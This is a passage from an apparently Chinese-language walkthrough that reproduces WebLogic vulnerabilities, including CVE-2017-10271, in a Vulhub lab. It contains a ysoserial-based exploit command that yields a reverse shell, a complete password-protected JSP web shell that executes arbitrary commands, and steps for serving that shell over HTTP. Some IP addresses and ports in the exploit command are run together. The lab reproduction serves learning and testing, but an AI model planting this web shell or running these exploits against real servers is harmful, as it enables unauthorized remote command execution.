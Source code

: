 ```
python2 Exploit.py 192.168.1.1297001/tools/weblogic/ysoserial-all.jar 192.168.1.1299999JRMPClient
```

  
![image-20230420142121751](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5eRu20YRLlFYLiadT4hOrKEXg5twXjnoGWRVFkrJgCnrXB4aXsMDQpbg/640?wx_fmt=png&from=appmsg "")  
  
此时查看监听处  
  
![image-20230420142144309](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5Dm9VEUiaHQ6J47hia4BYKRsVicMkpA740XUKT3uYTA5osib9Gtg9RSmudA/640?wx_fmt=png&from=appmsg "")  
  
成功反弹shell  
## XML漏洞  
#### 漏洞复现  
  
Vulhub复现  

```
cd vulhub/weblogic/CVE-2017-10271
docker-compose up  -d
```

  
开启环境后访问**http://192.168.1.129:7001/_async/AsyncResponseService**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK53CxAdDq4KcUJup8SYiaG3xtPN1yFWwia5cIoIxCePr0Kzr7m486CqZbg/640?wx_fmt=png&from=appmsg "")  
  
访问成功说明存在漏洞  
  
写入**shell.txt**  
文件，内容如下  

```
<%
if(&#34;123&#34;.equals(request.getParameter(&#34;pwd&#34;))){
java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();
int a =-1;
byte[] b =newbyte[1024];
        out.print(&#34;<pre>&#34;);
while((a=in.read(b))!=-1){
            out.println(newString(b));
}
        out.print(&#34;</pre>&#34;);
}
%>
```

  
接下来开启http服务，使得它可以被访问  

```
python -m SimpleHTTPServer 1387
```

  
![image-20230420121959310](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5Tk2LXh0mdEkZqudE3s5jRs906HSbwUNUuIGmqZ5MOzatExRA6OQxtQ/640?wx_fmt=png&from=appmsg "")  
  